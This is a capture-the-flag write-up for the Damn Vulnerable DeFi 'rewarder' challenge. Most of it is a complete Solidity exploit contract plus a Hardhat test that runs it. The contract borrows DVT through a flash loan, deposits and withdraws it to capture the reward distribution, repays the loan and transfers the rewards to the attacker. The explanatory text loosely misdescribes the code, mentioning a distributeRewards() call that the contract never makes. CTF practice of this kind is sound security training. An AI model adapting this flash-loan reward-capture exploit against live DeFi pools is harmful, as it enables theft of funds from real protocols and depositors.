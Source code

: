 # Challenge #5 - The rewarder   
 There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

 Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

 You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

 Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans? 

## Exploit 
In this challenge we can use the flashloan, to mint the attacker free rewardTokens by modifying 
the transaction timestamp and calling the ``distributeRewards()`` before returning the flashloan. 
Therefore, we can mint as an attacker free reward tokens.  
 
```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface ILendingPool {
	function flashLoan(uint256 amount) external;
}

interface IRewardsPool {
	function deposit(uint256 amountToDeposit) external;
	function withdraw(uint256 amountToWithdraw) external;
}

interface IDVT {
	function transfer(address to, uint256 amount) external returns (bool);
	function approve(address spender, uint256 amount) external returns (bool);
}

interface IRewardToken {
	function transfer(address to, uint256 amount) external returns (bool);
	function balanceOf(address account) external view returns (uint256);
}

contract Exploit_TheReward {

	address attacker;
	ILendingPool lendingPool;
	IRewardsPool rewardsPool;	
	IRewardToken rewardToken;
	IDVT dvt;

	function exec(address _lendingPool, address _rewardsPool, address _dvt, address _rt) external {
		lendingPool = ILendingPool(_lendingPool);	
		rewardsPool = IRewardsPool(_rewardsPool);
		rewardToken = IRewardToken(_rt);
		dvt = IDVT(_dvt);
		attacker = msg.sender;
		lendingPool.flashLoan(1000000 ether);
	}
	
	function receiveFlashLoan(uint256 amount) external {
		dvt.approve(address(rewardsPool), amount);
		rewardsPool.deposit(amount);
		rewardsPool.withdraw(amount);
		dvt.transfer(address(lendingPool), amount);
		rewardToken.transfer(attacker, rewardToken.balanceOf(address(this))); 
	}
}

```
Execution: 
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        // Advance time 5 days so that depositors can get rewards
        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days
		await this.exploit.exec(
			this.flashLoanPool.address, 
			this.rewarderPool.address,
			this.liquidityToken.address,
			this.rewardToken.address
		);
    });
```
